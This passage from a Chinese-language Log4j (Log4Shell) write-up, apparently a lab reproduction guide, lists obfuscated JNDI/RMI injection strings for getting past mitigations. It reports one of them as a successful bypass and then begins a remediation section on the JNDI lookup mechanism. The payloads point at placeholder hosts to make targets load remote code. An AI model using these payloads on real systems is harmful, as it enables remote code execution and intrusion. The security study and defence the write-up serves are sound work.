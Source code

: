 11.对缓解之后的漏洞进行绕过，有以下常规的绕过方式：

```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```

我们在此使用

```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
```

绕过成功：

<img src="picture/缓解后绕过成功.png" alt="缓解后绕过成功" style="zoom:50%;" />

---

#### 七、漏洞修复

1.原理分析：

Log4j 提供了一个名为 **JNDI（Java Naming and Directory Interface）** 的功能，允许从远程服务器中动态加载类或资源。
 在日志消息或参数中，Log4j 支持解析形如 `${}` 的表达式，并允许通过 JNDI 加载外部数据。
